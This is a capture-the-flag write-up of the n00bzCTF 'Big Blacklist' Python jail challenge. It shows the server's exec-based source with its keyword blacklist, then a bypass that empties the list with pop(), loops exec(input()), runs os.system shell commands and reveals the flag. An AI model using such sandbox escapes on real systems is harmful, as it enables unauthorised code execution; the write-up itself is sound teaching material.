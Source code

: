 # Big Blacklist

>*Description*: That's a big blacklist for a pyjail challenge, don't you think?  
Author: NoobMaster

<br>

- Running `nc challs.n00bzunit3d.xyz 8412` gives us the following text  
    
        =========================
        #!/usr/bin/env python3
        blacklist = ["/","0","1","2","3","4","5","6","7","8","9","setattr","compile","globals","os","import","_","breakpoint","exit","lambda","eval","exec","read","print","open","'","=",'"',"x","builtins","clear"]
        print("="*25)
        print(open(__file__).read())
        print("="*25)
        print("Welcome to the jail!")
        print("="*25)

        for i in range(2):
            x = input('Enter command: ')
            for c in blacklist:
                if c in x:
                    print("Blacklisted word found! Exiting!")
                    exit(0)
            exec(x)

        =========================
        Welcome to the jail!
        =========================
        Enter command:  

    Note: We only get two tries  

<br>

- pop() is a function in python that deletes the last element from a list.  
We can use a simple loop to delete all the items from the list.  
   
        for i in range(len(blacklist)):blacklist.pop()  

<br>

- With another loop we can enter as many commands as we want.
    
        while True:exec(input())

Note: There is a time limit.  

<br>

- There are many different ways to solve this now.

        import os
        os.system('ls')
        flag.txt
        jail.py
        os.system('cat flag.txt')
        n00bz{blacklist.pop()_ftw!_7a5d2f8b}  

<br>

[Official Writeup](https://github.com/n00bzUnit3d/n00bzCTF2023-OfficalWriteups/tree/master/Misc/Pyjail%201)

### Flag - n00bz{blacklist.pop()_ftw!_7a5d2f8b}
